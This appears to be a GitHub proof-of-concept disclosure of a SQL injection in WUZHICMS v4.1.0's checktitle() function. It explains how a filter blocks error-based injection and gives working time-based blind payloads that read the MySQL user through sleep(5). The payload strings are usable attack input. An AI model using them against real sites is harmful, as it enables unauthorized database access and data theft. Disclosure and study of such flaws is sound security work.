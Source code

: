 # WUZHICMS-SQL-Injection
---
### WUZHICMS v4.1.0 function checktitle() in /coreframe/app/content/admin/content.php hava a SQL injection
- /coreframe/app/content/admin/content.php: $titile able to control,but just to bypass 
function remove_xss()
![avatar](https://github.com/SuperSalsa20/WUZHICMS-SQL-Injection/blob/master/1.png)
- /coreframe/app/core/libs/function: function remove_xss():
Filter ”,”   
Can't use SQL like [updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)]
But can use Time Blind SQL Injection
![avatar](https://github.com/SuperSalsa20/WUZHICMS-SQL-Injection/blob/master/2.png)
- Find the injection point in web site
![avatar](https://github.com/SuperSalsa20/WUZHICMS-SQL-Injection/blob/master/3.png)
- findConstruction statement,if submit,we find Controllable variable “title”
![avatar](https://github.com/SuperSalsa20/WUZHICMS-SQL-Injection/blob/master/4.png)
- MySQL user:

![avatar](https://github.com/SuperSalsa20/WUZHICMS-SQL-Injection/blob/master/5.png)
- Exp:```title=123%' and case when substring((select user()) from 1 for 1)='r' then sleep(5) else 0 end  and '%'='&cid=1&id=0```
![avatar](https://github.com/SuperSalsa20/WUZHICMS-SQL-Injection/blob/master/6.png)
- ```title=123%' and case when substring((select user()) from 1 for 4)='root' then sleep(5) else 0 end  and '%'='&cid=1&id=0```
![avatar](https://github.com/SuperSalsa20/WUZHICMS-SQL-Injection/blob/master/7.png)
- sleep 5 seconds,It's works
